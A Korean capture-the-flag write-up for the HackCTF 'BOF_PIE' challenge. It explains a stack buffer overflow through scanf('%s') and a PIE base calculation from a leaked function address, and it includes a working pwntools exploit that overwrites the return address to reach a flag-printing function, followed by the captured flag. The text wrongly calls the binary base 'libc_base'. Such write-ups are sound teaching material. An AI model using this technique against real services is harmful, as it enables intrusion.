 #BOF_PIE

---

우선 `main()`의 코드는 다음과 같다.


    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      welcome();
      puts("Nah...");
      return 0;
    }

`welcome()`이란 함수를 부르고 있다. `welcome()`의 코드를 보자.

    int welcome()
    {
      char v1; // [esp+6h] [ebp-12h]
    
      setvbuf(stdin, 0, 2, 0);
      setvbuf(stdout, 0, 2, 0);
      puts("Hello, Do you know j0n9hyun?");
      printf("j0n9hyun is %p\n", welcome);
      return _isoc99_scanf("%s", &v1);
    }

여기서는 `welcome()`함수의 주소를 주고 있다. 그리고 v1을 입력받는데 이때 bufferoverflow가 일어난다.

다음 함수를 호출하면 flag를 얻을 수 있다.

<pre>
void j0n9hyun()
{
  char s; // [esp+4h] [ebp-34h]
  FILE *stream; // [esp+2Ch] [ebp-Ch]

  puts("ha-wi");
  stream = fopen("flag", "r");
  if ( stream )
  {
    fgets(&s, 40, stream);
    fclose(stream);
    puts(&s);
  }
  else
  {
    perror("flag");
  }
}
</pre>

때문에 `welcome()`함수에서 일어나는 bufferoverflow를 이용하여 ret주소를 다음 함수로 덮는다면 flag를 얻을 수 있다.

하지만 PIE보호기법이 걸려있었다.

<pre>
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
</pre>

때문에 `welcome()`의 주소를 이용하여 offset을 계산해서 `j0n9hyun()`의 주소를 구하여야 한다.

이를 위한 offset을 우선 구해보자.

---

    gdb-peda$ p welcome
    $1 = {<text variable, no debug info>} 0x909 <welcome>
    gdb-peda$ p j0n9hyun
    $2 = {<text variable, no debug info>} 0x890 <j0n9hyun>

**welcome_offset=0x909** <br>
**j0n9hyun_offset=0x890**

얻은 `welcome()` 주소에 welcome_offset을 뺀다면 libc_base를 얻을 수 있다. 그리고 그 libc_base에 j0n9hyun_offset을 더하면 `j0n9hyun()`의 주소를 알 수 있다. `welcome()`에서 s의 위치가 ebp-0x12이기 때문에 payload는 다음과 같이 될 것이다.

**[dummy 22bytes]+[address of j0n9hyun()]**

다음과 같이 익스코드를 짜서 flag를 얻을 수 있었다.

	from pwn import*
    
    p=remote('ctf.j0n9hyun.xyz',3008)
    
    welcome_offset=0x909
    j0n9hyun_offset=0x890
    
    p.recvuntil('j0n9hyun is ')
    
    welcome_address=int(p.recv(10),16)
    libc_base=welcome_address-welcome_offset
    j0n9hyun_address=libc_base+j0n9hyun_offset
    
    
    payload='A'*22
    payload+=p32(j0n9hyun_address)
    p.sendline(payload)
    
    p.interactive()

flag는 다음과 같다.


    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/9.BOF_PIE$ vi ex.py
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/9.BOF_PIE$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3008: Done
    [*] Switching to interactive mode
    
    ha-wi
    HackCTF{243699563792879976364976468837}

**flag: HackCTF{243699563792879976364976468837}**
